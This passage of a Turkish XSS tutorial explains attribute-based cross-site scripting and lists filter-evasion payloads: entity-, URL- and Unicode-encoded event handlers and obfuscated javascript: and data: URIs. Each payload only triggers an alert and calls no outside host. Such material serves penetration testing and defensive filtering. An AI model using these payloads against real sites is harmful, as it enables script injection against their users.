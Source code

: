 Eğer **atribütten kaçamazsanız** (`"` kodlanıyor veya siliniyorsa), **değerinizin hangi atributte** yansıtıldığına bağlı olarak **değerin tamamını mı yoksa sadece bir kısmını mı kontrol ettiğinize** bağlı olarak bunu kötüye kullanabileceksiniz. **Örneğin**, `onclick=` gibi bir olayı kontrol ediyorsanız, tıklandığında rastgele kod çalıştırabilirsiniz.\
Başka ilginç bir **örnek** ise `href` atributudur; burada `javascript:` protokolünü kullanarak rastgele kod çalıştırabilirsiniz: **`href="javascript:alert(1)"`**

**HTML kodlaması/URL kodlaması kullanarak olay içindeki atlatma**

HTML etiket atributlerinin değerleri içindeki **HTML kodlanmış karakterler** **çalışma zamanında** **çözülür**. Bu nedenle aşağıdaki gibi bir şey geçerli olacaktır (yükleme bold olarak belirtilmiştir): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Geri Dön </a>`

Herhangi bir tür HTML kodlamasının geçerli olduğunu unutmayın:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**URL kodlamasının da çalışacağını unutmayın:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**Unicode kodlaması kullanarak iç olayları atlatma**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### Özel Protokoller İçinde attribute

Burada bazı yerlerde **`javascript:`** veya **`data:`** protokollerini **rastgele JS kodu çalıştırmak** için kullanabilirsiniz. Bazıları kullanıcı etkileşimi gerektirecek, bazıları ise gerektirmeyecek.
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
javascript:alert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
```